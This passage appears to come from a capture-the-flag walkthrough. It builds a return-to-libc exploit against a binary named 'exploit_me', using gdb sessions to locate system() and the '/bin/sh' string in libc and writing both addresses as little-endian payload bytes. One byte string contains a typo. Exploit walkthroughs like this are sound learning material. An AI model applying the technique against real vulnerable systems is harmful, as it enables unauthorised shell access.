 
(gdb) b main
Breakpoint 1 at 0x80483f7


(gdb) run
Starting program: /home/zaz/exploit_me

Breakpoint 1, 0x080483f7 in main ()
```

Next, we need to get the address of the system function because the command we will essentially execute is:
**`system("/bin/sh");`**

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
```
system = 0xb7e6b060
little endian = \x60\xb0\xe6\xb7
```

Now that we have obtained the memory address of the system function, we need to use "/bin/sh" next. Using the libraries that the program uses, we will search for the **`"/bin/sh"`** command.

```
(gdb) info proc map


process 2962
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb)
```

As we can see in the memory address range between **`0xb7e2c000`** and **`0xb7fd2000`**, it uses **`/lib/i386-linux-gnu/libc-2.15.so`**.
Let's search for **`"/bin/sh"`** in this memory range.

```
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

``` 
"/bin/sh" = 0xb7f8cc58 
little endian = \x58\xcc\xf8\b7
```

Now that we have reached our goal, we have a memory address for the system function plus another memory address for "/bin/sh".

```